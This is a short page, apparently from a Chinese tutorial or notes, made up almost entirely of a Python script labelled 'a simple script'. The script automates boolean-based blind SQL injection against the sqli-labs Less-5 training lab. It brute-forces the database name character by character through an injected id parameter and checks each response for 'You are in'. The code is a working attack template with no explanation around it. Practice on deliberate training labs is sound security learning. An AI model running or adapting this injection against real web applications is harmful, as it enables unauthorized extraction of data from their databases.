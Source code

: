   

一个简单脚本

  

```python

import requests

  

url = 'http://xxx/sqli-labs-master/Less-5/?id=1\' and ascii(substr((select database()), {0}, 1))={1} --+'

  

def guess_character(position, ascii_value):

    response = requests.get(url.format(position, ascii_value))

    if 'You are in' in response.text:

        return chr(ascii_value)

    else:

        return None

  

position = 1

characters = []

  

while True:

    for ascii_value in range(32, 127):

        character = guess_character(position, ascii_value)

        if character is not None:

            characters.append(character)

            position += 1

            print(character)

            break

    else:

        break

  

database_name = ''.join(characters)

print(database_name)

  

```
